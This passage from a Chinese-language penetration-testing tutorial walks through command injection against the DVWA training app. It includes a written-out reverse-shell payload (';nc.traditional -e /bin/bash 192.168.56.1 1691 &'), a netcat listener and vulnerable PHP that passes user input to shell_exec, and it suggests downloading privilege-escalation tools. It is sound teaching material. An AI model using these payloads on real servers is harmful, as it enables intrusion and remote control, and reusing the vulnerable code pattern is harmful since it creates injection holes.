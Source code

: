 5.  现在，我们打算获取服务端的反向 shell。首先我们必须确保服务器拥有所需的任何东西。提交下列代码：`;ls /bin/nc*`。

    ![](img/6-2-4.jpg)
    
    所以我们拥有多于一种版本的 Netcat，我们打算使用它来生成连接。`nc`的 OpenBSD 版本不支持执行连接命令，所以我们使用传统的版本。
    
6.  下一步是监听 Kali 主机的连接。打开终端并执行下列命令：

    ```
    nc -lp 1691 -v
    ```
    
7.  返回浏览器中，提交这个：`;nc.traditional -e /bin/bash 192.168.56.1 1691 &`。

    ![](img/6-2-5.jpg
    
    我们的终端会对连接做出反应。我们现在可以执行非交互式命令并检查它们的输出。
    
### 工作原理

就像 SQL 注入的例子那样，命令注入漏洞的来源于弱输入校验机制，以及使用用户提供的数据来拼接之后会用做 OS 命令的字符串。如果我们查看刚刚攻击的页面源代码（每个 DVWA 页面的右下角会有个按钮），会看到这些：

```php
<?php
if( isset( $_POST[ 'submit' ] ) ) {

    $target = $_REQUEST[ 'ip' ];
    
    // Determine OS and execute the ping command.    
    if (stristr(php_uname('s'), 'Windows NT')) {
        $cmd = shell_exec( 'ping  ' . $target );        
        echo '<pre>'.$cmd.'</pre>';            
        
    } else {             
        $cmd = shell_exec( 'ping  -c 3 ' . $target );        
        echo '<pre>'.$cmd.'</pre>';        
    }    
} 
?>
```

我们可以看到，它直接将用户的输入附加到 ping 命令后面。我们所做的仅仅是添加一个分号，系统的 shell 会将其解释为命令的分隔符，以及下一个我们打算执行的命令。

在成功执行命令之后，下一步就是验证服务器是否拥有 Netcat。它是一个能够建立网络连接的工具，在一些版本中还可以在新连接建立之后执行命令。我们看到了服务器的系统拥有两个不同版本的 Netcat，并执行了我们已知支持所需特性的版本。

之后我们配置攻击系统来监听 TCP 1691 端口连接（也可以是任何其它可用的 TCP 端口），然后我们让服务器连接到我们的机器，通过该端口并在连接建立时执行`/bin/bash`（系统 shell）。所以我们通过连接发送的任何东西都会被服务器接收作为 shell 的输入。

也可以让服务器下载一些恶意程序，例如提权利用，执行它来获得更高权限。
